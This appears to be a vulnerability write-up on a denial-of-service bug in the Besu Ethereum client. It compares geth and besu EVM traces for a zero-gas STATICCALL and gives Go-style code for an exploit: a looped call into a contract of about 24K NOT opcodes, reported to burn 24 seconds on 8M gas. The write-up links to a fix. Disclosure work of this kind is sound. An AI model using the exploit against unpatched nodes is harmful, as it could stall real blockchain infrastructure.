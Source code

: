 # Besu DoS issue

Executing the test on geth `evm`: 
- it does a `staticcall( address: 0x22, gas:0, 0,0,0,0)`. 
- on `0x22`: it immediately goes out of gas, since zero was provided, 
- it returns, and the program stops. 
```
$ ~/workspace/evm --json statetest ./00002762-naivefuzz-0.json.base 
{"pc":0,"op":96,"gas":"0x79bc18","gasCost":"0x3","memSize":0,"stack":[],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":2,"op":96,"gas":"0x79bc15","gasCost":"0x3","memSize":0,"stack":["0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":4,"op":96,"gas":"0x79bc12","gasCost":"0x3","memSize":0,"stack":["0x0","0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":6,"op":96,"gas":"0x79bc0f","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":8,"op":96,"gas":"0x79bc0c","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":10,"op":96,"gas":"0x79bc09","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":12,"op":250,"gas":"0x79bc06","gasCost":"0xa28","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22","0x0"],"depth":1,"refund":0,"opName":"STATICCALL"}
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"depth":2,"refund":0,"opName":"PUSH1","error":"out of gas"}
{"pc":13,"op":0,"gas":"0x79b1de","gasCost":"0x0","memSize":0,"stack":["0x0"],"depth":1,"refund":0,"opName":"STOP"}
{"output":"","gasUsed":"0xa3a","time":145782}
{"stateRoot": "2d2adfd2db2de9092194f61077cdcfd67f03599e3a839e88bb05d17d7495dd83"}
[
  {
    "name": "00002762-naivefuzz-0",
    "pass": false,
    "fork": "London",
    "error": "post state root mismatch: got 2d2adfd2db2de9092194f61077cdcfd67f03599e3a839e88bb05d17d7495dd83, want 0000000000000000000000000000000000000000000000000000000000000000"
  }
]
```

Doing the same on besu -- the `staticcall` destination contract actually executes some opcodes. Not until it reaches the `RETURN` does 
it detect that it was running on negative gas, and errors out:

```
 ~/workspace/besu-vm --json --nomemory state-test ./00002762-naivefuzz-0.json.base 
{"pc":0,"op":96,"gas":"0x79bc18","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":96,"gas":"0x79bc15","gasCost":"0x3","memSize":0,"stack":["0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":4,"op":96,"gas":"0x79bc12","gasCost":"0x3","memSize":0,"stack":["0x0","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":6,"op":96,"gas":"0x79bc0f","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":8,"op":96,"gas":"0x79bc0c","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":10,"op":96,"gas":"0x79bc09","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":12,"op":250,"gas":"0x79bc06","gasCost":"0xa28","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"STATICCALL","error":""}
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":96,"gas":"0xfffffffffffffffd","gasCost":"0x3","memSize":0,"stack":["0x20"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":4,"op":243,"gas":"0xfffffffffffffffa","gasCost":"0x3","memSize":0,"stack":["0x20","0x0"],"returnData":"0x","depth":2,"refund":0,"opName":"RETURN","error":"Out of gas"}
{"pc":13,"op":0,"gas":"0x79b1de","gasCost":"0x0","memSize":0,"stack":["0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"STOP","error":""}
{"output":"","gasUsed":"0x6022","time":43461454,"Mgps":"0.566","test":"00002762-naivefuzz-0","fork":"London","d":0,"g":0,"v":0,"postHash":"0x2d2adfd2db2de9092194f61077cdcfd67f03599e3a839e88bb05d17d7495dd83","postLogsHash":"0x1dcc4de8dec75d7aab85b567b6ccd41ad312451b948a7413f0a142fd40d49347","pass":false}

```

Since it eventually detects this (either on return on on a new forward-call), the besu stateroot becomes identical with the geth one. 
However, it should be possible to crash this, e.g. with a humongous alloc. However, it seems that the error is also detected when `MSTORE` is executed!

When trying an infinite loop, the error is also detected on the `JUMPDEST`: 
```
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":91,"gas":"0xfffffffffffffffd","gasCost":"0x1","memSize":0,"stack":["0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"JUMPDEST","error":"Out of gas"}
```
A lot of the instructions seem to trigger the detection of the error, but simple ones like `PUSH` sail right on by: 
```
{"pc":12,"op":250,"gas":"0x79bc06","gasCost":"0xa28","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"STATICCALL","error":""}
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":96,"gas":"0xfffffffffffffffd","gasCost":"0x3","memSize":0,"stack":["0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":4,"op":96,"gas":"0xfffffffffffffffa","gasCost":"0x3","memSize":0,"stack":["0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":6,"op":96,"gas":"0xfffffffffffffff7","gasCost":"0x3","memSize":0,"stack":["0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":8,"op":96,"gas":"0xfffffffffffffff4","gasCost":"0x3","memSize":0,"stack":["0x1","0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":10,"op":96,"gas":"0xfffffffffffffff1","gasCost":"0x3","memSize":0,"stack":["0x1","0x1","0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":12,"op":0,"gas":"0xffffffffffffffee","gasCost":"0x0","memSize":0,"stack":["0x1","0x1","0x1","0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"STOP","error":"Out of gas"}
```



---

This big switch here: https://github.com/hyperledger/besu/blob/f20b4b3bd1af09730b1e1172643d09f3691ee420/evm/src/main/java/org/hyperledger/besu/evm/EVM.java#L130 -- the ones that are 'direct' there, e.g mul, xor, push, can be used, but the others cannot. So for example `MUL` works, but `DIV` is a 'detector', triggering the detection of "we are on negative gas", and exiting the execution. 

One way to exploit this, is to fill a contract with `PUSH1 1` followed by `24K` `NOT`, and just call it in a loop (with zero gas) . Using (only) 8M gas, leads to `24s` execution time. 

Program `a`: 
```
	a := NewProgram()
	loc := a.Jumpdest()
	a.Call(big.NewInt(0), big.NewInt(0x22), big.NewInt(0), 0, 0, 0, 0)
	a.Op(ops.POP)
	a.Jump(loc)
```
calls Progam `b` at address `0x22`: 
```
	b := NewProgram()
	b.Push(0x01)
	for i := 0; i < 24570; i++ {
		b.Op(ops.NOT)
	}
```
Geth executes this in `70ms`, which is `59K` calls. In besu's case, that leads to somewhere on the order of `1351M` instructions performed on `8M gas`. 


--- 

Fixed by https://github.com/hyperledger/besu/pull/4756
